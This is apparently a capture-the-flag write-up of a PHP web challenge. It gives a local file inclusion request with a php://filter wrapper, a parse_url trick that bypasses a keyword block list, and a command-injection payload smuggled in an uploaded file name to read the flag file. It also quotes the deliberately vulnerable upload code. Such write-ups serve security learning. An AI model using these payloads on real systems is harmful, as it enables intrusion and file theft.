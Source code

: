 At first, we can find a LFI, and read source code with requests such as ``http://47.52.152.93:23333/user.php?page=php://filter/convert.base64-encode/resource=config``.

But we can't read flag with these way because in ``function.php`` here has a fucntion filter keyword like ``flag`` and ``ffffllllaaaaggg``.

```php
function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

```

After search ``parse_url`` in ``https://bugs.php.net``, I find it will fail to parse port-like string in parse_url, so ``http://47.52.152.93:23333/user.php?page=ffffllllaaaaggg&a=a:2`` will bypass filter, and then get a new hint ``you can find sth in m4aaannngggeee``. With this hint we can find ``upllloadddd.php``, and there has an obvious RCE in ``upllloadddd.php``.

```php
$filename = $_FILES['file']['name'];
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "<img src='data:image/png;base64,".$picdata."'></img>";
```

So just upload a file named ``;echo Li4vZmxhZ18yMzMzMzM= | base64 -d | xargs cat `` will get flag.
